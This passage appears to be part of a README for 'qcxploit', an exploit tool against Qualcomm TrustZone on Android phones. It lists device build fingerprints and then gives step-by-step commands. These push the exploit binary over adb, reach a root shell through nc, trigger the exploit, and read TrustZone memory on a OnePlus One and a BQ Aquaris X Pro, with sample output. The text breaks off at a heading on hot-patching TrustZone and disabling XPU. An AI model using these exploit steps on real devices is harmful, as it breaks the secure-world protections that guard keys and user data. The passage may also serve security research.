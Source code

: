 ``` 
        [ro.build.fingerprint]: [bq/bardock-pro/bardock-pro:8.1.0/OPM1.171019.026/1492:user/release-keys]
        [ro.build.version.base_os]: [bq/bardock-pro/bardock-pro:8.1.0/OPM1.171019.026/1422:user/release-keys]
        [ro.build.version.release]: [8.1.0]
        [ro.com.google.gmsversion]: [8.1_201810]
```

<br/>
<br/>

##### 11. Talk to the tz (reading tz memory)

<br/>  

  ###### 32 Bit Oneplus One MSM8974
  - Read memory dword from within the tz (Address: 0xFE82CDA0)
  
  ```
  $ adb forward tcp:1231 tcp:1231
  $ adb push qcxploit /data/local/tmp
  $ nc localhost 1231
  root@bacon:/ # cd /data/local/tmp
  root@bacon:/data/local/tmp # ./qcxploit exploit8974
  root@bacon:/data/local/tmp # ./qcxploit readmem 0xFE82CDA0 4
  0xFE805738
  385780FE
  ```
 
 <br/>
 
  ###### 64 Bit BQ Aquaris X Pro MSM8953
  - Read memory dword from within the tz (Address: 0x8657871c)
  
  ```
  $ adb forward tcp:1231 tcp:1231
  $ adb push qcxploit /data/local/tmp
  $ nc localhost 1231
  root@bardock:/ # cd /data/local/tmp
  root@bardock:/data/local/tmp # ./qcxploit readmem 8657871c 4
  Sending SVC: 0x200020d
  Data:
  0xA9BA6FFC
  FC6FBAA9
  ```

<br/>
<br/>

##### 12. Hot patch tz (writing to code cave)

  <br/>

  ###### 32 Bit Oneplus One MSM8974
 
   12.1. Disabling XPU
   